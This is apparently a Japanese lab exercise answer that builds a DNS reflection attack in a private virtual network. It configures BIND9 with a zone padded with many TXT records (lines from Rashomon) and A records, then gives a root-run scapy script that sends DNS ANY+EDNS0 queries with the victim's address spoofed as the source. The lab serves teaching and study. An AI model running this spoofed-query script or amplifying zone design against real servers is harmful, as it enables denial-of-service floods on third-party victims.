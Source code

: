 # Q.3(DNS reflection)

ホストOS: Linux

仮想化管理: Virtual Machine Manager（libvirt + QEMU/KVM）

Virtul Machine Manager を使用します。

以下のようにIPアドレスをそれぞれのコンピュターに割り当てる

| 仮想マシン名 | IPアドレス | 用途 |
| --- | --- | --- |
| attacker | すでに割り当てられているものを使う(今回は 192.168.11.25) | scapy による ANY＋EDNS0 クエリ をする |
| victim | 192.168.11.100 | 被害者（偽装される） |
| dns-server | 192.168.11.53 | BIND9でDNSサーバーとして振る舞う。大量のTXT/Aを返す。  |

**２つのゲストOSは仮想ブリッジ `br0` で接続する。**

br0は下のコマンドで作成する。

```bash
sudo ip link add name br0 type bridge
sudo ip link set dev br0 up
sudo ip link set dev enp3s0 master br0  # enp3s0が物理NIC
```

Virtual Machine Manager側でゲストOSがbr0を使用するようにする。

DNSサーバーのシステムのインストールを行います。

```bash
sudo apt install bind9
sudo systemctl start named
```

そしてDNSサーバー側でドメイン takkesan.com に対するゾーンを追加し、大量のレコードが返るようにします。

/etc/bind/db.takkesan.com

```bash
$TTL    604800
@       IN      SOA     ns1.takkesan.com. admin.takkesan.com. (
                          2024052005 ; Serial
                          604800     ; Refresh
                          86400      ; Retry
                          2419200    ; Expire
                          604800 )   ; Negative Cache TTL
;

@       IN      NS      ns1.takkesan.com.
@       IN      A       192.168.11.53
ns1     IN      A       192.168.11.53
www     IN      A       192.168.11.53
mail    IN      A       192.168.11.53
@       IN      MX 10   mail.takkesan.com.

;
@ IN TXT "It was at dusk on a certain day. A lone servant was waiting for the rain to stop under the Rashomon gate."
@ IN TXT "Under the wide gate, there was no one except this man. Only a single cricket rested on a large pillar,"
@ IN TXT "partially stripped of red lacquer. Considering that Rashomon stood on Suzaku Avenue,"
@ IN TXT "there should have been two or three more people, wearing straw hats or soft eboshi,"
@ IN TXT "also waiting for the rain to stop. Yet, there was no one else but this man."
@ IN TXT "The reason was that, in the past two or three years, Kyoto had suffered from a series of disasters earthquakes, whirlwinds,"
@ IN TXT "fires, and famines. As a result, the decline of the city was beyond description. According to old records,"
@ IN TXT "people smashed Buddhist statues and altar fittings, stripping off their red lacquer and gold or silver leaf,"
@ IN TXT "then piled up the wooden remains on the roadside and sold them as firewood. With that being the state of the capital,"

host1    IN      A       192.0.2.0
host2    IN      A       192.0.2.1
host3    IN      A       192.0.2.2
host4    IN      A       192.0.2.3
host5    IN      A       192.0.2.4
host6    IN      A       192.0.2.5
host7    IN      A       192.0.2.6
host8    IN      A       192.0.2.7
```

/etc/bind/named.conf.local

```bash
zone "takkesan.com" {
    type master;
    file "/etc/bind/db.takkesan.com";
};
```

被害者側でポート53番を一応開けておきます。

```bash
sudo ufw allow 53/udp
```

攻撃者側でWiresharkを起動してbr0を選択します。

入力フィールドにdnsと入力してDNS関連の通信のみを表示するようにします。

攻撃者側で下記のスクリプトをrootで実行します。

```python
from scapy.all import *
import random
import time

def send_spoofed_dns_any_edns0(victim_ip, dns_server_ip, qname, count=5, interval=1.0):
    print(f"[+] Sending {count} spoofed DNS ANY queries with EDNS0 for '{qname}' from {victim_ip} to {dns_server_ip}")

    for i in range(count):
        transaction_id = random.randint(1, 65535) 
        sport=53
        # IP + UDPヘッダ
        ip = IP(src=victim_ip, dst=dns_server_ip)
        udp = UDP(sport=sport, dport=53)

        # DNSクエリ + EDNS0（OPT）レコード付き
        dns = DNS(
            id=transaction_id,
            rd=1,
            qd=DNSQR(qname=qname, qtype=255),  # qtype=255 → ANY
            ar=DNSRROPT(rclass=4096, rdlen=0)
        )

        pkt = ip / udp / dns

        print(f"[*] Sending packet {i+1}/{count} (TXID=0x{transaction_id:04x}, SPORT={sport})")
        send(pkt, verbose=0)
        time.sleep(interval)

# ====== 実行パラメータ ======
victim_ip = "192.168.11.100"       # 偽装された送信元IP（被害者）
dns_server_ip = "192.168.11.53"    # DNSサーバIP（攻撃対象）
domain = "takkesan.com"            # 問い合わせ対象ドメイン
send_count = 5                     # クエリ送信回数
send_interval = 0.5                # 送信間隔（秒）

# ====== 実行 ======
send_spoofed_dns_any_edns0(victim_ip, dns_server_ip, domain, count=send_count, interval=send_interval)
```

